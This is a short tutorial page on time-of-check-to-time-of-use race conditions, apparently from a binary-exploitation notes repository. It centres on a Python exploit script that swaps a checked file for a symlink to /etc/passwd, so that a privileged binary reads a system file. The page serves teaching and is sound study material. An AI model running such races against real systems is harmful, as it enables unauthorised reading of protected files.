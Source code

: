 # Binary Exploitation

## Bug Classes

### Time of check to time of use

Time of check to time of use \(TOCTOU\) bugs are classes of bugs in which access or permissions to a resource are verified independently of their actual use.  In cases like this it requires something that the user can modify independently of the process.  

A classic example is that of the access to fopen call in C.  

Take the following example of a binary which checks we can access a file, say `/home/ubuntu/testfile` and then after a certain amount of time opens it and displays the results

```python
import os
import subprocess
import time
import sys

os.system('touch /home/ubuntu/testfile')
proc = subprocess.Popen(['/usr/bin/opentestfile', '/home/ubuntu/testfile'], stdout=subprocess.PIPE)
time.sleep(.5) #Do this to ensure the access check runs
os.system('rm /home/ubuntu/testfile')
os.system('ln -s /etc/passwd /home/ubuntu/testfile')
proc.wait()
print proc.communicate()
os.system('rm /home/ubuntu/testfile')
```

#### References

[Nebula 10 - Exploit Exercises](http://blog.kernelsecurity.es/2013/06/06/nebula-level10-exploiting-access-syscall-toctou-race-condition/)  
[Wikipedia](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)  
[OWASP - Time of check to time of use](https://www.owasp.org/index.php/Time_of_check,_time_of_use_race_condition)



